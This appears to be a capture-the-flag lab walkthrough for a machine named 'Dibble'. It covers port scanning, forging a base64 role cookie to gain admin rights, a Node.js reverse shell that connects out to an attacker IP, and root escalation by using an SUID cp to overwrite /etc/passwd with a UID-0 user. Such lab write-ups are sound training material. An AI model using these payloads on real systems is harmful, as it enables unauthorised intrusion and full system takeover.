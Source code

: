 # Dibble

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.110
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 12:24 +08
Nmap scan report for 192.168.157.110
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod
```

FTP accepts anonymous logins but there's nothing within it.&#x20;

### Web Enum -> Admin Takeover

Port 80 shows a blog about some web exploits:

<figure><img src="../../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

Port 3000 shows a more dynamic incident reporting site:

<figure><img src="../../../.gitbook/assets/image (3288).png" alt=""><figcaption></figcaption></figure>

I registed a new account and looked at the events:

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

Doesn't look super relevant. I checked Burpsuite, and noticed this cookie:

<figure><img src="../../../.gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

When decoded, it gives `default`. I changed it to a `base64` encoded `admin` string, giving `YWRtaW4=`, which allows us to create logs.

### RCE

The new log event specified that we can write code in it:

<figure><img src="../../../.gitbook/assets/image (1551).png" alt=""><figcaption></figcaption></figure>

The `X-Powered-By` header specified that this was using Express, which is Javascript. Since we can directly write code, I tried putting in a Node.js reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.196", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

When we submit thiss, we get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### cp SUID -> Root

`cp` is an SUID binary on this machine:

```
[benjamin@dibble ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
```

We can use this to overwrite files, just add this line into a copy of the current `/etc/passwd`:

```
hacker:$1$ZNhJDyK2$vksoiVz4W8rhrWm8BKxWK/:0:0::/root:/bin/bash
```

Then, use `cp` to overwrite the existing `/etc/passwd` file and `su` to `hacker` with 'hello123':

<figure><img src="../../../.gitbook/assets/image (2031).png" alt=""><figcaption></figcaption></figure>
